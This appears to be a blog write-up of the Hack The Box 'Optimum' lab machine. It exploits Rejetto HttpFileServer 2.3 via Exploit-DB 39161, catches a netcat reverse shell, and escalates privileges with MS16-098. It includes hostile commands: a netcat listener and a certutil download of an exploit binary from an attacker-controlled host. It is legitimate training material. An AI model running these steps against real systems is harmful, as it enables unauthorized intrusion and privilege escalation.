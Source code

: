```yaml
---
title: Optimum
date: 2021-01-25
excerpt: "'Optimum' is an easy rated box on Hack the Box. We'll exploit a vulnerable version of HttpFileServer for access and use Windows Exploit Suggester to find a kernal exploit for privesc"
classes: wide
categories: HackTheBox
tags:
  - htb
  - windows
  - HttpFileServer
  - windows_exploit_suggester
  - kernal
---
```



![img](/assets/images/htb/optimum/0.png)

### Port Scanning and General Enumeration (Nmap)
* Reading/Resources
  * [Nmap manual](https://nmap.org/book/man.html)

Initial scan showed that only port 80 (HTTP) is available


![img](/assets/images/htb/optimum/1.png)


![img](/assets/images/htb/optimum/2.png)

Clicking the link takes us to www.rejetto.com

**What we know:**
- It's running HttpFileServer 2.3
- The vendor is rejetto

---

### Access (searchsploit, Rejetto HFS RCE)
* Reading/Resources
  * [searchsploit](https://www.exploit-db.com/searchsploit)
  * [RCE](https://www.exploit-db.com/exploits/39161)

Let's see if there's anything on **searchsploit** for `rejetto` or `http file server 2.3`

`searchsploit rejetto`


![img](/assets/images/htb/optimum/3.png)

Let's grab `Remote Command Execution (2)`

`searchsploit -m 39161.py`

`-m` allows us to copy the exploit into our current working directory.

Let's read a bit about what it does

https://www.exploit-db.com/exploits/39161

```
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!
```

So we need to be hosting `nc.exe` on port `80`. That's easy enough. On kali, windows binaries are stored at `/usr/share/windows-binaries`


![img](/assets/images/htb/optimum/4.png)

Now we're going to need a few tabs: 
- On one, our python server (`python3 -m http.server 80`) where `nc.exe` is located
- On another, a listener waiting to catch our shell (`nc -lvnp 4444`)
- And finally, one to fire the exploit

This is what mine looked like after the exploit completed:


![img](/assets/images/htb/optimum/5.png)


![img](/assets/images/htb/optimum/6.png)


---

### Privesc (Windows Exploit Suggester, MS16-098)
* Reading/Resources
  * [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
  * [MS16-098](https://www.exploit-db.com/exploits/41020)

I ran `winPEAS` on the machine but didn't come back with much so I assume that maybe we're looking at a kernal exploit. Let's try **Windows Exploit Suggester**

Note: for **Windows Exploit Suggester** to work we need to install a specific version of `xlrd`:

`pip2 install --user xlrd==1.1.0`

There's a couple things we need to do before we can run this. 

- First, run it with the `--update` switch. That will write an `xls` file for us to use.
- Second, on the victim machine, use the command `systeminfo` and copy all of the output and save it to a file. I'll name my `systeminfo.txt`
- Now run it:

`python windows-exploit-suggester.py -database 2021-01-25-mssb.xls -systeminfo systeminfo.txt`


![img](/assets/images/htb/optimum/7.png)

Let's look at [MS16-098](https://www.exploit-db.com/exploits/41020). There's a precompiled binary for us to grab on the github page. Let's grab that and transfer it over to the victim machine.

`certutil -urlcache -f Http://10.10.14.18:8000/ms16098.exe ms16098.exe`


![img](/assets/images/htb/optimum/8.png)

Give it a run!


![img](/assets/images/htb/optimum/9.png)


![img](/assets/images/htb/optimum/10.png)

